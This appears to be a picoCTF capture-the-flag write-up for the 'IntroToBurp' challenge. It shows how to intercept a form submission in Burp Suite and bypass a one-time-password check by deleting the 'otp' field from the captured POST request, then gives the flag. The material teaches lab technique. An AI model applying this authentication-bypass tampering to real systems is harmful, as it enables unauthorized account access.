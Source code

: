 # IntroToBurp

### Description:

Additional details will be available after launching your challenge instance.
`Click "Launch Instance"`.
Try `here` to find the flag.

### Commands / Steps:

```bash
# Step 1: Open burpsuite. 

# Step 2: Go to the "Proxy" tab and click open browser.

# Step 3: Open the website in that browser to intercept the requests.

# Step 4: In the website, fill in the neccessary information and submit. Then in burpsuite, click "Forward".

# Step 5: After that, we will be asked to enter an OTP. After entering the OTP and click "Submit".

# Step 6: This is where we will manipulate the request. Before forwarding the request captured in burpsuite, we will see the request like this in the "Proxy" tab of burpsuite.
# POST /dashboard HTTP/1.1
# Host: titan.picoctf.net:51539
# Content-Length: 7
# Cache-Control: max-age=0
# Accept-Language: en-US,en;q=0.9
# Origin: http://titan.picoctf.net:51539
# Content-Type: application/x-www-form-urlencoded
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://titan.picoctf.net:51539/dashboard
# Accept-Encoding: gzip, deflate, br
# Cookie: session=.eJwtjEsOwyAMRO_CugsgiUt6GRSMrVZJIOKjqKp691pKdzNvPh-Fr_ZWDxXWVd0U1sK-5ZWSIDSOAbQd2ISJo55GOzuMgOI5aIJo0cwAsuO-bT4tO8lsCSgkt0O0hbubtdhjqfXMJQozdhinq3Q8cyKf-h6oXInAXqn8ryKx-v4Amlkwuw.aPu0QQ.6C-qq_UDwauVIBbEu5x5nKBo1x8
# Connection: keep-alive

# otp=123

# Step 7: From that request, we will delete the last line "otp=123" and forward our request. Then, we will get the flag.
```

### Flag:

> picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}

### Notes / Tips

- Always watch the raw body (bottom panel) — web forms are typically application/x-www-form-urlencoded and each field appears as `key=value&key2=value2`. Editing here is straightforward.
- This is a standard demonstration of request tampering — a core Burp technique for testing server‑side validation. It’s an important skill for both red-teamers and defenders to understand.


